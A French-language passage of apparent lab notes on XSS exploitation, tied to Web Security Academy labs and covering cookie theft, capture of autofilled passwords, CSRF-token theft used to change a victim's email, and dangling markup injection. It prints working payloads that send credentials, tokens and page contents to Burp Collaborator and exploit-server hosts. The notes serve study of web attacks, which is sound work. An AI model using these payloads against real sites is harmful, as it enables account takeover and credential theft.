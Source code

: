 ## Voler des cookies

Le vol de cookies est une méthode traditionnelle d'exploitation des attaques XSS. La plupart des applications web utilisent des cookies pour la gestion des sessions. Vous pouvez exploiter les vulnérabilités de script intersite pour envoyer les cookies de la victime vers votre propre domaine, puis les injecter manuellement dans le navigateur et usurper l'identité de la victime.

## Capturer les mots de passe

De nos jours, de nombreux utilisateurs disposent de gestionnaires de mots de passe qui saisissent automatiquement leurs mots de passe. Vous pouvez en tirer parti en créant un mot de passe, en lisant le mot de passe saisi automatiquement et en l'envoyant à votre propre domaine. Cette technique évite la plupart des problèmes liés au vol de cookies et permet même d'accéder à tous les autres comptes où la victime a réutilisé le même mot de passe.

Le principal inconvénient de cette technique est qu'elle ne fonctionne que pour les utilisateurs disposant d'un gestionnaire de mots de passe avec saisie automatique.

```html
<input hidden name=username id=username>
<input hidden type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

## Contourner les protections CSRF

Les attaques XSS permettent à un attaquant d'effectuer quasiment tout ce qu'un utilisateur légitime peut faire sur un site web. En exécutant du code JavaScript arbitraire dans le navigateur de la victime, les attaques XSS vous permettent d'effectuer un large éventail d'actions comme si vous étiez l'utilisateur victime. Par exemple, vous pouvez lui demander d'envoyer un message, d'accepter une demande d'ami, de créer une porte dérobée vers un dépôt de code source ou de transférer des bitcoins.

Certains sites web permettent aux utilisateurs connectés de modifier leur adresse e-mail sans avoir à ressaisir leur mot de passe. Si vous avez détecté une vulnérabilité XSS sur l'un de ces sites, vous pouvez l'exploiter pour voler un jeton CSRF. Grâce à ce jeton, vous pouvez modifier l'adresse e-mail de la victime pour en choisir une que vous contrôlez. Vous pouvez ensuite déclencher une réinitialisation du mot de passe pour accéder au compte.

Ce type d'exploit combine XSS (pour voler le jeton CSRF) avec la fonctionnalité généralement ciblée par CSRF. Alors que le CSRF traditionnel est une vulnérabilité « unidirectionnelle », où l'attaquant peut inciter la victime à envoyer des requêtes sans voir les réponses, XSS permet une communication « bidirectionnelle ». Cela permet à l'attaquant d'envoyer des requêtes arbitraires et de lire les réponses, créant ainsi une attaque hybride qui contourne les défenses anti-CSRF.

> Les jetons CSRF sont inefficaces contre XSS car XSS permet aux attaquants de lire les valeurs des jetons directement à partir des réponses.


```html
<script>
	var req = new XMLHttpRequest();
	req.onload = handleResponse;
	req.open('get','/my-account',true);
	req.send();
	function handleResponse() {
	    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
	    var changeReq = new XMLHttpRequest();
	    changeReq.open('post', '/my-account/change-email', true);
	    changeReq.send('csrf='+token+'&email=test@test.com')
	};
</script>
```

```html
<script>
var req = new XMLHttpRequest();                     // 1. Crée un objet requête HTTP
req.onload = handleResponse;                        // 2. Quand la réponse arrive, appelle la fonction handleResponse
req.open('get','/my-account',true);                 // 3. Prépare une requête GET vers "/my-account"
req.send();                                         // 4. Envoie la requête

function handleResponse() {
    // 5. Cherche dans la réponse HTML un champ caché avec le token CSRF
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    // 6. Crée une nouvelle requête HTTP pour changer l'email
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);

    // 7. Envoie le formulaire avec le token CSRF récupéré + un nouvel email
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Cela obligera toute personne qui consulte le commentaire à envoyer une demande POST pour modifier son adresse e-mail. `test@test.com`.


## Dangling markup injection

L'Injection de balisage suspendu est une technique permettant de capturer des données inter-domaines dans des situations où une attaque de XSS complète n'est pas possible.

exemple:

```html
"><img src='//attacker-website.com?
```

Cette charge utile crée une balise `img` et définit le début d'un attribut `src` contenant une URL sur le serveur de l'attaquant. Notez que la charge utile de l'attaquant ne ferme pas l'attribut `src` laissé en suspens.

Lorsqu'un navigateur analyse la réponse, il recherche un guillemet simple pour terminer l'attribut. Tout ce qui précède est traité comme faisant partie de l'URL et est envoyé au serveur de l'attaquant dans la chaîne de requête. Tous les caractères non alphanumériques, y compris les retours à la ligne, sont codés en URL.

L'attaque permet à l'attaquant de capturer une partie de la réponse de l'application après le point d'injection, qui peut contenir des données sensibles. Selon les fonctionnalités de l'application, il peut s'agir de jetons CSRF, d'e-mails ou de données financières.

> Tout attribut qui effectue une demande externe peut être utilisé pour le balisage suspendu.

```html
"><a href="https://exploit-0a0300ac035828cb82ae507b01dc00cd.exploit-server.net/exploit">Click me</a><base target='';
```

```html
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

```html
<script>
if(window.name) {
		new Image().src='https://a4fi319gzs2w28xn2cgtvzyv9mfd3ir7.oastify.com?' encodeURIComponent(window.name);
		} else {
     			location = 'https://0a9b000303d528fc82ff51d700b100c5.web-security-academy.net/my-account?email="><a href="https://exploit-0a0300ac035828cb82ae507b01dc00cd.exploit-server.net/exploit">Click me</a><base target='';
}
</script>
```
